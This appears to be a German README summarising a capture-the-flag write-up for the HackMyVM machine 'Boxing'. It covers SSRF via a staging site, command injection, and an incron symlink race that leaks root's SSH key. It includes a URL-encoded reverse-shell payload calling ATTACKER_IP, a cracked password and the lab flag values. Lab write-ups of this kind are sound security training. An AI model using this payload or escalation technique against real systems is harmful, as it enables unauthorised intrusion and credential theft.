 # Boxing - HackMyVM Writeup

![Boxing VM Icon](Boxing.png)

Dieses Repository enthält das Writeup für die HackMyVM-Maschine "Boxing" (Schwierigkeitsgrad: Medium), erstellt von DarkSpirit. Ziel war es, initialen Zugriff auf die virtuelle Maschine zu erlangen und die Berechtigungen bis zum Root-Benutzer zu eskalieren.

## VM-Informationen

*   **VM Name:** Boxing
*   **Plattform:** HackMyVM
*   **Autor der VM:** DarkSpirit
*   **Schwierigkeitsgrad:** Medium
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=Boxing](https://hackmyvm.eu/machines/machine.php?vm=Boxing)

## Writeup-Informationen

*   **Autor des Writeups:** Ben C.
*   **Datum des Berichts:** 29. April 2024
*   **Link zum Original-Writeup (GitHub Pages):** [https://alientec1908.github.io/Boxing_HackMyVM_Medium/](https://alientec1908.github.io/Boxing_HackMyVM_Medium/)

## Kurzübersicht des Angriffspfads

Der Angriff auf die Boxing-Maschine umfasste mehrere Stufen und die Ausnutzung verschiedener Schwachstellen:

1.  **Reconnaissance:**
    *   Identifizierung der Ziel-IP (`192.168.2.114` unter dem Hostnamen `boxing.hmv`) mittels `arp-scan`.
    *   Ein `nmap`-Scan offenbarte zwei offene Ports: SSH (22, OpenSSH 9.2p1) und HTTP (80, Apache 2.4.57, Titel "Oxer").
2.  **Web Enumeration:**
    *   `nikto`, `dirb` und `gobuster` wurden zur Enumeration des Webservers auf Port 80 eingesetzt. Wichtige Funde waren `/images/`, `/css/`, `/js/` (mit Directory Indexing), `index.html` und `feedback.php`.
    *   Technologie-Stack: Apache, PHP, Debian, jQuery, Bootstrap.
    *   Ein Command Injection-Versuch gegen `feedback.php` wurde dokumentiert, dessen Erfolg aber unklar blieb.
3.  **Staging Environment Analysis & SSRF:**
    *   Hinweise (E-Mail `demo@boxing.hmv`, HTTP-Header `X-Origin-Domain: staging-env.boxing.hmv`) führten zur Entdeckung einer Staging-Umgebung unter `staging-env.boxing.hmv`.
    *   In einer Feedback-Nachricht wurde der Passwort-Hinweis "Cassius!" gefunden.
    *   Die Staging-Seite (`staging-env.boxing.hmv/index.php`) hatte eine Local File Inclusion (LFI)-Schwachstelle im `url`-Parameter, die für Server-Side Request Forgery (SSRF) ausgenutzt wurde.
    *   Mittels SSRF wurden von der Produktionsseite (`boxing.hmv`) potenzielle Benutzernamen (`moe`, `daro`, `uji`) extrahiert.
    *   Ein interner Portscan via SSRF auf `localhost` (des Staging-Servers) mit `ffuf` entdeckte einen Dienst auf Port 5000.
4.  **RCE via Staging & Initial Access (www-data):**
    *   Der Dienst auf `localhost:5000` (erreichbar via SSRF) zeigte ein Formular, das nach einem "Process name" fragte.
    *   Fuzzing des `processName`-Parameters mit `ffuf` und Sonderzeichen identifizierte das `+`-Zeichen (URL-kodiert `%2B`) als Schlüssel zur Command Injection.
    *   Mit einem Payload wie `processName=system%2B-e%2Bid` wurde RCE als `www-data` auf dem Host-System (wo der Port 5000 Dienst lief) bestätigt.
    *   Eine Reverse Shell wurde über die RCE-Schwachstelle initiiert (`processName=system%2B-e%2Bnc%2B-c%2Bbash%2BATTACKER_IP%2BPORT`), was zu einer Shell als `www-data` führte.
5.  **Privilege Escalation (www-data zu cassius):**
    *   Über LFI auf der Staging-Umgebung wurde eine SQLite-Datenbank (`boxing_database.db`) heruntergeladen.
    *   `strings` auf die Datenbank offenbarte einen bcrypt-Hash für den Benutzer `cassius`.
    *   Der Hash wurde mit `john` und einer Wordlist (basierend auf dem Hinweis "Cassius!") geknackt. Das Passwort war `Cassius!123`.
    *   Mit `su cassius` und dem geknackten Passwort wurde zum Benutzer `cassius` gewechselt.
    *   Die User-Flag (`/home/cassius/user.txt`) wurde gelesen.
6.  **Privilege Escalation (cassius zu root via Incron):**
    *   Als `www-data` wurde im Verzeichnis `/opt/sos` das Skript `incrontab.sh` gefunden. Dieses richtete eine `incron`-Regel ein, die bei Attributänderung von `/home/cassius/user.txt` das Skript `/opt/sos/sos.sh` als `root` ausführt.
    *   `sos.sh` wechselte nach `/home/cassius`, führte dort `file *` aus (dessen Ausgabe in `/opt/sos/logs/output-logs.txt` landete) und setzte am Ende `chmod 700` auf die Logdatei.
    *   Als `cassius` wurde ein Symlink `rootrsa` in `/home/cassius` erstellt, der auf `/root/.ssh/id_rsa` zeigte.
    *   Eine Endlosschleife wurde gestartet, um `/opt/sos/logs/output-logs.txt` nach `/home/cassius/` zu kopieren (Race Condition).
    *   Durch `chmod 700 /home/cassius/user.txt` wurde der Incron-Job getriggert.
    *   Der private SSH-Schlüssel von Root wurde aus der kopierten Logdatei (`output.log`) extrahiert.
    *   Erfolgreicher SSH-Login als `root` mit dem exfiltrierten Schlüssel.
7.  **Flags:**
    *   Die User-Flag wurde als `cassius` gelesen.
    *   Die Root-Flag (`/root/root.txt`) wurde als `root` gelesen.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nmap`
*   `grep`
*   `nikto`
*   `dirb`
*   `gobuster`
*   `curl`
*   Burp Suite (impliziert für Request-Analyse)
*   `sqlmap`
*   `wfuzz`
*   `ffuf`
*   `wget`
*   `strings`
*   `john`
*   `echo`
*   `su`
*   `cat`
*   `ls`
*   `cd`
*   `touch`
*   `ln`
*   `chmod`
*   `cp`
*   `head`
*   `awk`
*   `tr`
*   `ssh`

## Identifizierte Schwachstellen (Zusammenfassung)

*   **Directory Indexing:** Mehrere Verzeichnisse auf dem Webserver waren auflistbar.
*   **Local File Inclusion (LFI) / Server-Side Request Forgery (SSRF):** Der `url`-Parameter in `staging-env.boxing.hmv/index.php` war anfällig für LFI, was zu SSRF ausgenutzt wurde.
*   **Remote Code Execution (RCE) via SSRF:** Ein interner Dienst auf Port 5000 (erreichbar via SSRF) hatte eine Command Injection-Schwachstelle im `processName`-Parameter.
*   **Preisgabe eines Passwort-Hashes in Datenbank:** Eine via LFI/SSRF zugängliche SQLite-Datenbank enthielt einen bcrypt-Hash für den Benutzer `cassius`.
*   **Schwaches Passwort:** Das Passwort für `cassius` (`Cassius!123`) konnte aus einem Hinweis abgeleitet und geknackt werden.
*   **Unsichere `incron`-Konfiguration:** Eine `incron`-Regel führte ein Skript als `root` aus, wenn die Attribute einer benutzerkontrollierten Datei geändert wurden. Dieses Skript führte Befehle in einem benutzerkontrollierten Verzeichnis aus (`file *` in `/home/cassius`), was zur Exfiltration des privaten Root-SSH-Schlüssels durch einen Symlink und eine Race Condition missbraucht wurde.

## Flags

*   **User Flag (`/home/cassius/user.txt`):** `a2b3946358a96bb7a92f61a759a1d972`
*   **Root Flag (`/root/root.txt`):** `19ed17ba1da85521ce659aeeb5ecd751`

---

**Wichtiger Hinweis:** Dieses Dokument und die darin enthaltenen Informationen dienen ausschließlich zu Bildungs- und Forschungszwecken im Bereich der Cybersicherheit. Die beschriebenen Techniken und Werkzeuge sollten nur in legalen und autorisierten Umgebungen (z.B. eigenen Testlaboren, CTFs oder mit expliziter Genehmigung) angewendet werden. Das unbefugte Eindringen in fremde Computersysteme ist eine Straftat und kann rechtliche Konsequenzen nach sich ziehen.

---
*Bericht von Ben C. - Cyber Security Reports*
